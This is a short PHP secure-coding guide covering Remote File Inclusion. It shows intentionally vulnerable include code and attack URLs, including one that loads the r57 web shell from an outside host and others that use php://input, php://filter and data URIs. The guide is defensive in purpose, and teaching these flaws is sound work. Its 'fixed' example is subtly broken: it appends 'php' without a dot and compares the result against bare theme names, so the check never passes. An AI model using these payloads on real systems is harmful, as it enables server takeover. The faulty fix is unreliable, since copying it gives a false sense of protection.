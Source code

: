 #Things you shouldn't do in PHP

1. Remote File Inclusion
2. Local File Inclusion
3. Local File Disclosure/Download
4. Remote Command Execution
5. Remote Code Execution
6. Authentication Bypass/Insecure Permissions
7. Cross-Site Scripting(XSS)
8. Cross Site Request Forgery(CSRF)

##1) Remote File Inclusion
######Basic examples

test.php
```php
<?php
$theme = $_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = $_GET['theme'];
include $theme.'.php';
?>
```
######Attack
- Including Remote Code: 
 	- http://localhost/rfi/index.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt
	- http://localhost/rfi/index1.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt?
- Using PHP stream php://input:
	- http://localhost/rfi/index.php?theme=php://input 
- Using PHP stream php://filter:
	- http://localhost/rfi/index.php?theme=php://filter/convert.base64-encode/resource=index.php
- Using data URIs:
	- http://localhost/rfi/index.php?theme=data://text/plain;base64,SSBsb3ZlIFBIUAo=
	
######How to fix
- set `allow_url_include = Off` in php.ini
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the slash "/"
- filter "http" , "https" , "ftp" and "smb"

test_fixed.php
```php
<?php
$allowedThemes = array('pink', 'black');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include $theme;
}
?>
```
######Affected PHP Functions
- require
- require_once
- include
- include_once

		
